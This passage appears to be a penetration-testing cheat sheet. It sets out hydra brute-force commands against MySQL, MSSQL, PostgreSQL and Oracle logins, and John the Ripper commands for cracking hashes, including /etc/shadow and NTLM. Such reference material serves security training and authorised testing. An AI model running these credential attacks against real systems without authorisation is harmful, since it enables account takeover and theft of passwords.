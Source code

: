 ### Database Attacks

| Command | Description |
|---------|-------------|
| `hydra -l root -P passwords.txt mysql://10.10.10.100` | MySQL brute force |
| `hydra -l sa -P passwords.txt mssql://10.10.10.100` | MSSQL brute force |
| `hydra -l postgres -P passwords.txt postgres://10.10.10.100` | PostgreSQL attack |
| `hydra -l oracle -P passwords.txt oracle-listener://10.10.10.100` | Oracle attack |

## John the Ripper - Hash Cracking

### Basic John Usage

| Command | Description |
|---------|-------------|
| `john hashes.txt` | Crack hashes with default settings |
| `john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt` | Dictionary attack |
| `john --rules hashes.txt` | Apply word mangling rules |
| `john --incremental hashes.txt` | Brute force mode |
| `john --show hashes.txt` | Show cracked passwords |

### Hash Format Detection

| Command | Description |
|---------|-------------|
| `john --list=formats` | List supported hash formats |
| `john --format=NT hashes.txt` | Specify NTLM hash format |
| `john --format=md5crypt shadow.txt` | Crack /etc/shadow hashes |
| `john --format=raw-sha256 hashes.txt` | Crack SHA256 hashes |

### Advanced John Techniques

| Command | Description |
|---------|-------------|
| `john --wordlist=wordlist.txt --rules=best64 hashes.txt` | Use best64 rules |
| `john --mask=?u?l?l?l?l?d?d?d hashes.txt` | Mask attack (Uppercase+4lowercase+3digits) |
| `john --markov hashes.txt` | Markov chain attack |
| `john --external=policy hashes.txt` | Custom external mode |

### John Session Management
